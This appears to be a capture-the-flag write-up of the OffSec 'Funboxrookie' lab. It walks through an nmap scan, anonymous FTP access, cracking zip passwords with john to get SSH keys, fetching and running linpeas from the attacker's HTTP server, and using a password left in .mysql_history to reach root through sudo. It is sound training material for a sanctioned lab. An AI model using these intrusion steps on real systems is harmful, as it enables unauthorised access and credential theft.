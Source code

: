 
# OffSec labs - Funboxrookie

Initial nmap scan showed a few open and interesting ports: 
```shell
nmap -sV -sC -n -O -T4 -p- -Oa scan 192.168.89.107/24

```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/logs/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.32 or 3.10 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), WatchGuard Fireware 11.8 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%)
```

We see nmap identified port 21 on FTP as anonymous login enabled, it also gives us a list of files on the server.
lets login 
```shell
ftp anonymous@192.168.89.107
```
lets see if we can upload something 
```shell
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||41295|)
550 test.txt: Operation not permitted
```
Nope, no luck, lets download the file on here and snoop around in them

```shell
                                                                               
┌──(kali㉿kali)-[~/Documents/funboxrookie/ftp]
└─$ unzip anna.zip    
Archive:  anna.zip
[anna.zip] id_rsa password:
```
We need a password to unzip them! 
Lets move on to the webserver and see what we can do on port 80
Looks like an apache page, lets try to find some directories

```shell
gobuster dir -u http://192.168.89.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
No luck on finding directories, lets try to crack one of the zip files passwords with john 

```shell
zip2john cathrine.zip > cat.john
```
Now lets try to crack it! 
```shell
john cat.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press `q` or Ctrl-C to abort, almost any other key for status
catwoman         (cathrine.zip/id_rsa)     
1g 0:00:00:00 DONE (2022-11-14 19:29) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
we got a password!

lets unzip the file

```shell
unzip cathrine.zip 
Archive:  cathrine.zip
[cathrine.zip] id_rsa password: 
  inflating: id_rsa
```
Looks like an rsa key was in the zip file, hopefully we can use it to ssh into the server, lets try.

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
It didn't work! We forgot to change the file permissions...

```shell
sudo chmod 600 id_rsa
```
Lets try again

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
still not working....
i'm gonna crack another zip and try that rsa key. 

After cracking, unzipping, and changing perms for tom.zip we can finally connect.

```shell
ssh tom@192.168.89.107 -i id_rsa     
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 15 00:50:35 UTC 2022

  System load:  0.0               Processes:             164
  Usage of /:   74.7% of 4.37GB   Users logged in:       0
  Memory usage: 36%               IP address for ens256: 192.168.89.107
  Swap usage:   0%


30 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$ 
ls
cat local.txt 
```

got the user flag! 

now lets try to privesc, running linpeas.sh

on my box:
```shell
python3 -m `http.server`
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
in ssh session:
```shell
wget http://<ip>:8000/peas.sh
```
```shell
bash peas.sh
```
linpeas didn`t turn up anything usefull, lets check out history files

trying to cd anywhere gives an error, lets upgrade to a full tty python

```shell
python3 -c `import os; os.system("/bin/bash");`
```
Now lets check some history files, bash first
```shell
cat .bash_history
```
blank! 

this sql one looks interesting 

```shell
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040`support`;
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit

```
Looks like a possible password in the last query? lets try it 

```shell
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL

```
ALL COMMANDS! 
```shell
sudo su
root@funbox2:/home/tom# whoami
root
```
WE GOT ROOT

```shell
cd /root/
cat proof.txt
```

Overall easy box covering: anonymous FTP login, password cracking, and lack of history cleaning.  



